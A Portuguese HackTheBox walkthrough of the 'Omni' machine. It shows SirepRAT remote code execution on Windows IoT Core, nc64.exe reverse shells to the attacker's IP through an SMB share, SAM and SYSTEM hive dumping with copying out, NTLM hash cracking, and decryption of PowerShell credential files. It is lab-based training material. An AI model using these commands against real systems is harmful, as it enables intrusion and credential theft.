


1. [Resolução da máquina **OMNI**](#resolução-da-máquina-omni) 1. [Máquina Fácil (hackthebox.com)](#máquina-fácil-hacktheboxcom) 2. [by **_JavaliMZ_** - 08/09/2021](#by-javalimz---08092021)
2. [Enumeração](#enumeração)
    1. [Nmap](#nmap)
3. [Exploração](#exploração)
4. [Escalada de privilégios](#escalada-de-privilégios)
    1. [Enumeração do sistema](#enumeração-do-sistema)
    2. [User "app"](#user-app)


# Resolução da máquina **OMNI**

#### Máquina Fácil (hackthebox.com)

#### by **_JavaliMZ_** - 08/09/2021

---

---

# Enumeração

## Nmap

A primeira ferramenta que sempre uso para enumerar qualquer máquina é o nmap. Essa ferramenta permite-nos enumerar as portas abertas de um dado IP, e versões e potenciais vulnerabilidades de softwares que estão correndo em cada porta.

 

Neste momento, sabemos que:

-   Porta 135 aberta: MSRPC é um mecanismo de comunicação entre processos "interprocess communication (IPC)" que permite comunicações entre clientes e servidores

-   Porta 8080 aberta: O nmap identificou quer o programar que está a rodar nele é o _Basic realm=Windows Device Portal_ - Windows Device Portal (WDP) - é um web server incluido com o Windows devices que permite configurar e gerir um windows e seus serviços através da internet ou por USB. O acesso pela porta 8080 está restringida, necessitando de uma autenticação válida.


Depois de alguma pesquisa, se pesquisar-mos por _"Windows Device Portal exploit github"_, podemos encontrar esta ferramenta:

> SirepRAT - RCE as SYSTEM on Windows IoT Core - GitHub (https://github.com/SafeBreach-Labs/SirepRAT)


# Exploração

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT

sudo python3 setup.py install

# A sintax é um pouco estranha... mas a sua página de GitHub contém bastantes exemplos...
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```

The command give us an output that looks good. But we can confirm if we have RCE with a better combo!

O comando retorna um output que parece convincente. Mas é preciso confirmar se temos realmente **Remote Code Execution (RCE)**. Para isso, podemos enviar uma traça ICMP para a nossa própria máquina Kali, ficando a escuta do lado do kali.

```bash
# Capturando todas as comunicações ICMP (Pings) entrando e saindo pelo tun0 (VPN do HackTheBox)
sudo tcpdump -i tun0 icmp

# Execução remota na máquina alvo, para que nos "pingue" a nossa máquina Kali
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.16"
```

 

Agora que temos a certeza de executar comandos remotamente, podemos tratar de estabelecer um reverse shell. Tentei de várias formas:

-   Tentei fazer o donwload de um nc64.exe através da ferramenta certutil.exe normalmente presente em Windows, mas sem sucesso (certutil.exe não existe)
-   Tentei com IEX e com IWR do Powershell, mas também sem sucesso (também não existem)
-   Criei um servidor samba no meu Kali, com smbserver, onde disponibilizava um nc64.exe.

```bash
# SMB Server
sudo smbserver.py smbFolder $(pwd) -user javali -password javali -smb2support

# NC listener
sudo rlwrap nc -lvnp 443

# Get Reverse shell
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.16\smbFolder /u:javali javali'

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c \\10.10.14.16\smbFolder\nc64.exe -e cmd 10.10.14.16 443'
```

**_Estamos na máquina!_**


# Escalada de privilégios

## Enumeração do sistema

Para todos os CaptureTheFlag, o objectivo é conseguir ler a _flag_ (user.txt e root.txt)

Se tivermos privilégios suficientes, podemos encontrá-los através de um simples comando:

```bash
cd C:\
# Procura recursiva da referida string, a partir da pasta onde nos encontramos:
dir /r /s user.txt  # user.txt : C:\Data\Users\app
dir /r /s root.txt  # root.txt : C:\Data\Users\administrator

# Ver quem tem que privilégios nesses ficheiros
icacls C:\Data\Users\app\user.txt  # NT AUTHORITY\SYSTEM:(I)(F)
								   # BUILTIN\Administrators:(I)(F)
								   # OMNI\app:(I)(F)

icacls C:\Data\Users\administrator\root.txt  # NT AUTHORITY\SYSTEM:(I)(F)
											 # BUILTIN\Administrators:(I)(F)
											 # OMNI\Administrator:(I)(F)
```

O proximo passo é migrar de usuários. Neste momento nós estamos com um usuário do Windows Device Portal, e não como usuário da máquina alvo. Esse tipo de usuário pode executar alguns comando no sistema mas tem um poder muito maior. Tem privilégios para verificar a memória RAM do sistema. Isso significa que podemos extrair o HKLM\System e o HKLM\Sam para recuperar informações dos usuários locais (uid:rid:lmhash:nthash)

```bash
reg save HKLM\SYSTEM SYSTEM.bak  # The operation completed successfully.
reg save HKLM\SAM SAM.bak        # The operation completed successfully.

# Copiar os dois novos ficheiros para o nosso Kali
copy .\SAM.bak \\10.10.14.16\smbFolder\SAM.bak
copy .\SYSTEM.bak \\10.10.14.16\smbFolder\SYSTEM.bak

# No kali, extrair os dados
secretsdump.py -sam SAM.bak -system SYSTEM.bak LOCAL
#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>
#>  [*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
#>  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
#>  Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
#>  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
#>  sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
#>  DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
#>  app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
#>  [*] Cleaning up...
```

Com esses hashes, podemos tentar crackear as passwords com a ferramenta "john the ripper", e a tão famosa wordlist "rockyou.txt".

```bash
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::" > hashes

john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hashes
john --format=NT --show hashes  # app:mesh5143
```

Neste momento tentei usar o Invoke_Command com as novas credentiais mas sem sucesso (também não existe...). Então tentei fazer login na página web que estava na porta 8080


Podemos executar commandos diretamente do Windows Device Portal, Mas é sempre melhor ter uma verdadeira reverse shell... Não sei porquê, mas não consegui executar o reverse shell diretamente do samba server, mas, ainda com a shell já aberta, podemos copiar o nc64.exe para uma pasta local. Eu escolho sempre o C:\Windows\System32\spool\drivers\color\ porque praticamente nunca está bloqueado (ver applocker bypass)

```bash
# Ainda com o usuário omni
copy \\10.10.14.16\smbFolder\nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe

# Com o usuário app, a partir do website
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

## User "app"

Na pasta raiz do usuário "app", podemos ver a flag user.txt, mas também vemos um outro ficheiro estranho: iot-admin.xml. O ficheiro contém o seguinte:



Este tipo de ficheiro é uma Credencial de Powershell. Para extrair o campo Password, podemos fazer o seguinte:

```bash
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential().password
#> _1nt3rn37ofTh1nGz
# Isto poderá ser a palavra chave do administrator.
# administrator:_1nt3rn37ofTh1nGz

# Como todos os ficheiros (iot-admin.xml, user.txt, root.txt) estão em formato Powershell Credential, vamos extraí-los todos da mesma maneira...
(Import-CliXml -Path user.txt).GetNetworkCredential().password
# 7cfd50f6bc34db3204..............   (Esta é a flag parcial)
```

Com a nova credencial, podemos efectuar o login no website enquanto administrador do sistema


Agora podemos estabelecer um reverse shell com o mesmo binário do nc64.exe já transferido

```bash
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```


E para a flag root.txt, vamos usar outra vez a mesma técnica para extrair o campo Password do ficheiro de Credencial do Powershell.

```bash
type root.txt  # As propriedades são ainda as mesmas: 'UserName' e 'Password'
(Import-CliXml -Path root.txt).GetNetworkCredential().Password
#> 5dbdce5569e2c47.................    (Esta é a flag parcial de root.txt)
```
